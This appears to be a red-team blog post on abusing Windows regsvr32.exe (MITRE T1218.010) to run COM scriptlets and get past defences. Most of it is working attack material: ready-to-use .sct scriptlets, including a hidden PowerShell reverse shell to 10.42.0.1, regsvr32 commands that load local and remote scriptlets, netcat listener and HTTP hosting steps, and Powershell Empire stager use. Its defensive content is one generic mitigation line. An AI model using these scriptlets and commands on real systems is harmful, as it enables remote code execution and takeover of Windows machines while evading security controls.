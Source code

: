 ```yaml
---
title: REGSVR32
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, regsvr32]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.010`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# REGSVR32

***Regsvr32.exe*** is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs). Adversaries may abuse Regsvr32.exe to proxy execution of malicious code. 

# Exploitations

## Command Prompt

### Execute Local Com Scriptlet To Invoke Calculator

Copy the below script to your .sct file, then execute the following command to invoke calculator.

*com scriptlet to invoke calculator*

```javascript

<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
        <script language="JScript">
                <![CDATA[
                        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");

                ]]>
</script>
</registration>
</scriptlet>

```
Command

> `regsvr32.exe /n /s /u /i:[file_sct] scrobj.dll`

```batch
regsvr32.exe /n /s /u /i:cmd.sct scrobj.dll

```
![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrwincalc.png)

### Execute Local Com Scriptlet To Get Reverse Shell

To be able to get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command on your target machine.

*com scriptlet reverse shell*
```javascript
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
                <![CDATA[
                        var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');

                ]]>
</script>
</registration>
</scriptlet>

```
Command

> `regsvr32.exe /n /s /u /i:[file_sct] scrobj.dll`

```batch
regsvr32.exe /n /s /u /i:rev.sct scrobj.dll

```
![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrev.png)

*getting a reverse shell*

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrevkali.png)

### Execute Remote Com Scriptlet To Get Reverse Shell

To be able to get a reverse shell, host the below .sct script to your server i.e `python3 -m http.server` update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`. then execute the below command on your target machine.

*com scriptlet reverse shell*

```javascript
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
                <![CDATA[
                        var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');

                ]]>
</script>
</registration>
</scriptlet>

```
Command

> `regsvr32.exe /n /s /u /i:[url] scrobj.dll`

```batch
regsvr32.exe /n /s /u /i:http://10.42.0.1/rev.sct scrobj.dll
```

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrevr.png)

*getting a reverse shell*

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrevkali.png)

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrmeta.png)

## Powershell Empire

Use `uselistener` to setup your listener, with the listener setup, use `usestager windows/launcher_sct` to generate your payload, host your payload on your server, then execute the following command on target system `regsvr32.exe /n /s /u /i:[url] scrobj.dll`.

### Setup Listener

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempirelis.png)

### Generate Stager

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempiregen.png)

### Executing Command On Windows

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempirewin.png)

### Receiving Agent

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempireagent.png)



# Mitigations

- Use capabilities to detect and block conditions that may lead to or be indicative of a software exploit occurring.

# References

- [https://attack.mitre.org/techniques/T1218/010/](https://attack.mitre.org/techniques/T1218/010/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
- [https://attack.mitre.org/mitigations/M1050/](https://attack.mitre.org/mitigations/M1050/)
